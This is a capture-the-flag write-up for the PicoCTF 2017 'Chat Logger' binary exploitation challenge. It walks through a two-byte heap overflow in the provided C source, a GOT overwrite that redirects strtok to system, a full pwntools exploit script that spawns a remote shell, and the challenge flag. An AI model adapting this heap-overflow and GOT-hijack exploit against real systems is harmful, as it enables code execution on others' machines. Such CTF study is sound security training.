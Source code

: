 # PicoCTF_2017: Chat Logger

**Category:** Binary Exploitation

**Points:** 200

**Description:**

You've been given admin access to the chat logs for our organization to help clean up the language. See if you can get a shell on shell2017.picoctf.com:36069. [chat-logger](https://webshell2017.picoctf.com/static/b3322fd6f9446f38d9de16c803a75148/chat-logger)  [Source](https://webshell2017.picoctf.com/static/b3322fd6f9446f38d9de16c803a75148/server.c)

**Hint:**

- You should make some chat room log files to run this program locally.
- Learning about  [ptmalloc2](https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/)  might help. glibc uses a modified version of it.
- Bear in mind that fopen allocates memory and fclose frees it.

## Write-up

Another difficult binary exploitation challenge. It took me way too much time to spot buffer overflow and the exploitation part was even worse.

The vulnerable function is

void update_message(chat_message_t msg, char *new_text) {
    size_t len = strlen(new_text) + 1;
    if (len > msg->length) {
        msg->text = xrealloc(msg->text, normalize_size(len));
    }
    strncpy(msg->text+2, new_text, len);
    message_add_status(msg, '*');
}

Variable  `len`  contains our message size plus one, but  `msg->length`  also includes 2 bytes for message status. It gives us opportunity to overflow buffer by two bytes.

My first idea was to add two messages at the end of any chat. I hoped that they would be next to each other in the memory, so by overflowing the first one I could mark the second one as free. Then I could just expand the first message to overwrite  `chat_message_t`  structure of the other.  `chat_message_t`  contains pointer to the buffer, so I could put  `.got.plt`  address there and leak where  `libc`  was loaded.

Unfortunately the messages were put in some "random" places in memory. I thought that for some length of the buffers they would be written in a "correct" order, but I didn't manage to find such lengths.

Luckily first message buffer was just before its struct, so we could perform the attack using only one message (but I still had to send two messages, because otherwise the program was crashing for some mysterious reason).

To get offsets of libc functions we can use radare2 on the webshell.

```
system 0x41490
strtok 0x84a60

```

And with IDA we can find the address of  `.got.plt`  in the application.

```
strtok@.got.plt 601EC0

```

`strtok@.got.plt`  address will become the need address of first message buffer. Please note that we need to subtract 2 from it, because the program puts  `*` on first two bytes and it would break our pointer (we can do this, because preceding pointer is useless - it's for  `perror`  function).

After overwriting the address we just need to type  `/bin/sh`  and we get the shell.
**Final Exploit**
```python
#!/usr/bin/env python2
from pwn import *
r = remote("shell2017.picoctf.com",36069)
r.recv()
r.send("find 2 You're not that funny.\n")
r.recv()
r.send("add 1337 %s\n"%("A"*21))
r.recv()
r.send("find 2 A\n")
r.recv()
r.send("add 1337 EOT%s\n"%("-"*100))
r.recv()
r.send("find 2 A\n")
r.recv()
r.send("edit %s\n"%("A"*22))
r.recv()
r.send("find 2 A\n")
r.recv()
r.send("edit %s\n"%("A"*46+"\xbe\x1e\x60"))
r.recv()
r.send("chat 2\n")
res = r.recvuntil("EOT---")
r.recv()
strtok_libc = int(res.splitlines()[-2][-6:][::-1].encode('hex'),16)
libc_base = strtok_libc-0x84a60
system_libc = libc_base+0x41490
r.send("edit %s\n"%(hex(system_libc)[2:].decode('hex')[::-1]))
r.recv()
r.send("/bin/sh\n")
r.interactive()
```
```text
$ python chat.py 
[+] Opening connection to shell2017.picoctf.com on port 36069: Done
[*] Switching to interactive mode

> $ ls
chat-logger
flag.txt
room.0.log
room.1.log
xinetd_wrapper.sh
$ cat flag.txt
164579d8d535184967061cc94ec029c5
```
The flag is  `164579d8d535184967061cc94ec029c5`.

Thanks to **BOAKGP** for the help with amazing writeup.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTY5NTQyMDEzNCwtMTE4OTEwNDIzNl19
-->
